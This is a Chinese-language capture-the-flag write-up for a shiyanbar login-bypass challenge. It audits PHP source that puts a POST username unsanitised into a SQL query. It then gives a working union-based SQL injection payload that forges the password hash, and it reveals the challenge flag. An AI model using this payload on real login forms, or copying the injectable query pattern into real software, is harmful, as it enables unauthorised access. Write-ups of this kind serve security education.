

# 程序逻辑问题

## 题目链接

http://shiyanbar.com/ctf/62

## 题目描述

```
绕过
```



## 解题思路

打开题目后，发现源码中有`index.txt`，此文件为该题目源码，打开进行审计。

```php
<html>
<head>
welcome to simplexue
</head>
<body>
<?php
if($_POST[user] && $_POST[pass]) {
	$conn = mysql_connect("********", "*****", "********");
	mysql_select_db("phpformysql") or die("Could not select database");
	if ($conn->connect_error) {
		die("Connection failed: " . mysql_error($conn));
} 
$user = $_POST[user];
$pass = md5($_POST[pass]);
$sql = "select pw from php where user='$user'";
$query = mysql_query($sql);
if (!$query) {
	printf("Error: %s\n", mysql_error($conn));
	exit();
}
$row = mysql_fetch_array($query, MYSQL_ASSOC);
//echo $row["pw"];
  if (($row[pw]) && (!strcasecmp($pass, $row[pw]))) {
	echo "<p>Logged in! Key:************** </p>";
}
else {
    echo("<p>Log in failure!</p>");
  }
}
?>
<form method=post action=index.php>
<input type=text name=user value="Username">
<input type=password name=pass value="Password">
<input type=submit>
</form>
</body>
<a href="index.txt">
</html>
```

审计该题目，发现有两个条件。

1. 首先通过user查询用户
2. 然后通过查询出的用户，拿出pw和用户输入的pw进行比计较，如果相等，则登录成功。

存在的漏洞点：在查询用户时，user没有经过过滤，可以进行注入，所以，通过构造注入，让查询出的结果能够被用户输入控制，和pw一样，就绕过了第二个比较。

直接给出payload`user=' union select md5(1)# and &pass=1`，这条语句拼出的sql语句为`select pw from php where user='' union select md5(1)#‘`。

这样查询出的pw值就是用户输入的`md5(1)`，当pass参数也输入`1`时，就绕过了条件了，得到flag ：SimCTF{youhaocongming}。